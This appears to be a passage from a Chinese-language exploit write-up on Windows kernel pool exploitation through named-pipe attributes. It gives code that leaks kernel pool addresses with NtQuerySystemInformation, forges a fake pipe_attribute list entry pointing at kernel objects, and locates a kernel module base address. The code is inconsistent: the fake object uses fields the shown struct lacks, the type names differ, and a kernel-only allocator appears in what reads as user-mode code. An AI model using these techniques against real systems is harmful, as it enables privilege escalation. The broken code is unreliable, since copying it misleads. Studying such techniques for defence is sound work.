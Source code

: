 ```plain
struct PipeAttribute {
    LIST_ENTRY list ;
    char * AttributeName;
    uint64_t AttributeValueSize;
    char * AttributeValue;
    char data [0];
};
```

每当内核模式组件的分配超过上述限制时，就会进行大池分配。然后使用 NtQuerySystemInformation 去转储池所分配的信息类有大小，tag 还有类型（Paged 或是 Non-Paged）还有内核虚拟地址。

```plain
NTSTATUS status = STATUS_SUCCESS;
if (NT_SUCCESS(status = ZwQuerySystemInformation(SystemBigPoolInformation, mem, len, &len))) {
    PSYSTEM_BIGPOOL_INFORMATION pBuf = (PSYSTEM_BIGPOOL_INFORMATION)(mem);
    for (ULONG i = 0; i < pBuf->Count; i++) {
        __try {
            if (pBuf->AllocatedInfo[i].TagUlong == PIPE_ATTR_TAG) {
                // save me
            }
        }
        __except (EXCEPTION_EXECUTE_HANDLER) {
            DPRINT_LOG("(%s) Access Violation was raised.", __FUNCTION__);
        }
    }
}
```

使用这个特性，我们可以很容易地获得新创建的管道对象的地址。然后开始分配 fake\_pipe\_attribute 对象，以便稍后将其地址注入到最开始双链表中。用如下方式保存内核 pipe\_attribute 指针

```plain
fake_pipe_attribute = (PipeAttributes*)VirtualAlloc(NULL, ATTRIBUTE_SIZE, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
fake_pipe_attribute->list.Flink = pipe_attribute_1;
fake_pipe_attribute->list.Blink = pipe_attribute_2;
fake_pipe_attribute->id = ANY;
fake_pipe_attribute->length = NEEDED;
```

通过 NtQuerySystemInformation 获取基址

```plain
ntStatus = NtQuerySystemInformation(SystemModuleInformation,   
                                    &module, /*pSysModInfo*/  
                                    sizeof(module), /*sizeof(pSysModInfo) or 0*/  
                                    &dwNeededSize );  
{

if (STATUS_INFO_LENGTH_MISMATCH == ntStatus)   
{  
    pSysModInfo = ExAllocatePoolWithTag(NonPagedPool, dwNeededSize, 'GETK');  

    if (pSysModInfo) {  
        ntStatus = NtQuerySystemInformation(SystemModuleInformation,   
                                            pSysModInfo,   
                                            dwNeededSize,   
                                            NULL );            
        if (NT_SUCCESS(ntStatus))  
        {  
            for (int i=0; i<(int)pSysModInfo->dwNumberOfModules; ++i)  
            {  
                StrUpr(pSysModInfo->smi[i].ImageName); // Convert characters to uppercase  
                if (strstr(pSysModInfo->smi[i].ImageName, MODULE_NAME))  {  
                    pModuleBase  = pSysModInfo->smi[i].Base;                      
                    break;  
```